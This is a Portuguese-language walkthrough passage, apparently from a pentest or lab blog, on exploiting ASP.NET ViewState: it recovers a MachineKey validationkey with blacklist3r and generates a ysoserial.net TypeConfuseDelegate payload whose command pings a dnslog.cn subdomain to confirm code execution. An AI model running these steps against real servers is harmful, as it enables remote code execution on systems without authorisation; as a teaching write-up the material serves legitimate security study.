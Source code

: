 # 3) Obtendo a MachineKeys!!!

Vamos utilizar o blacklist3r, que pode ser encontrado nos exemplos do "badsecrets"[2]. Para realizar o BruteForce no ViewState e conseguir a MachineKeys validationkey e descobrir o tipo de validationAlgo, vamos utilizar o comando abaixo. Note que inserimos o ViewState e o ViewStateGenerator que foram obtidos do view-source do website.

```
python3 blacklist3r.py --viewstate /wEPDwUJOTE2MDg4OTExZGQldI9l1U1eHRoGgWNNqx8PZyM3NQ== -g 540E5640
```

Após montarmos o comando a ser utilizado, nós vamos executá-lo... e conseguimos com sucesso a validationkey e o validationAlgo!!! =)

<img src="/assets/img/Pasted image 20230802110656.png">

Obtivemos a validationkey com sucesso e também percebemos que o algoritmo de criptografia é SHA1. Essas informações que obtivemos agora serão muito úteis quando formos preparar o nosso payload!!!

# 4) Preparando o Payload!!!

Agora vamos utilizar o ysoserial.net[3] para gerar um payload serializado. Note que no primeiro parâmetro definimos o tipo de plugin que será usado para o ViewState, em seguida, o tipo de gadget chain e, posteriormente, o comando a ser executado na máquina. Na sequência, incluímos o valor que estava no __ViewStateGenerator, o tipo de algoritmo do validationAlgo e, por fim, a nossa validationKey do MachineKeys.

O comando a ser executado será um PING em um de nossos subdomains gerados no dnslog[4], mas poderíamos ter utilizado outro, como por exemplo o interactsh[5].

O comando final a ser utilizado ficou desta forma:

```
ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "ping qlsqqg.dnslog.cn" --generator=540E5640 --validationalg="SHA1" --validationkey="F9D1A2D3E1D3E2F7B3D9F90FF3965ABDAC304902"
```

Agora vamos executar o nosso comando...

<img src="/assets/img/Pasted image 20230802114402.png">
